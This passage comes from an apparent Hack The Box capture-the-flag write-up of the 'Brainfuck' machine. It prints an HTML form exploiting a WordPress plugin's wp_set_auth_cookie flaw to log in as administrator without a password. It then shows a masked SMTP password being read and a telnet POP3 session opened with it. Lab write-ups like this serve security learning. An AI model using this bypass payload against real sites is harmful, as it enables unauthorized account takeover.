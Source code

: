Immediately I searched if there is any exploit available for this Plugin and found a good match

> [https://www.exploit-db.com/exploits/41006](https://www.exploit-db.com/exploits/41006)

So According to the exploit due to incorrect  usage of `wp_set_auth_cookie` we can login without the password.

```html
root@kali:~/CTF/HTB/Boxes/Brainfuck# cat ticket.html 
[form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php"](form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php")
	Username: [input type="text" name="username" value="administrator"](input type="text" name="username" value="administrator")
	[input type="hidden" name="email" value="sth"](input type="hidden" name="email" value="sth")
	[input type="hidden" name="action" value="loginGuestFacebook"](input type="hidden" name="action" value="loginGuestFacebook")
	[input type="submit" value="Login"](input type="submit" value="Login")
[/form](/form)
```

First I tried with `administrator` 

![Untitled](/img/htb-brainfuck/Untitled%203.png)

And refresh the main page and Im logged in as `Administrator`, but nothing seems interesting here.

![Untitled](/img/htb-brainfuck/Untitled%204.png)

I tried same with user `admin` now I got something different.

![Untitled](/img/htb-brainfuck/Untitled%205.png)

I went into the settings and found the `SMTP` plugin while checking that, I got the password of the same user `orestis` we got from the certificate.
Eventhough the password is masked by inspecting the element of that I can see the password.
![Untitled](/img/htb-brainfuck/Untitled%206.png)

## SMTP Enumeration

Since I got SMTP password and we know port 110 SMTP is open already, so I connected using telnet and give the details to login and there is 2 mails, I checked them one by one.

```bash
root@kali:~# telnet 10.10.10.17 110
Trying 10.10.10.17...
Connected to 10.10.10.17.
Escape character is '^]'.
+OK Dovecot ready.
USER orestis
+OK
PASS kHGuERB29DNiNE
+OK Logged in.
LIST
+OK 3 messages:
1 977
2 514
.
RETR 1
+OK 977 octets
Return-Path: [www-data@brainfuck.htb](www-data@brainfuck.htb)
X-Original-To: orestis@brainfuck.htb
Delivered-To: orestis@brainfuck.htb
Received: by brainfuck (Postfix, from userid 33)
	id 7150023B32; Mon, 17 Apr 2017 20:15:40 +0300 (EEST)
To: orestis@brainfuck.htb
Subject: New WordPress Site
```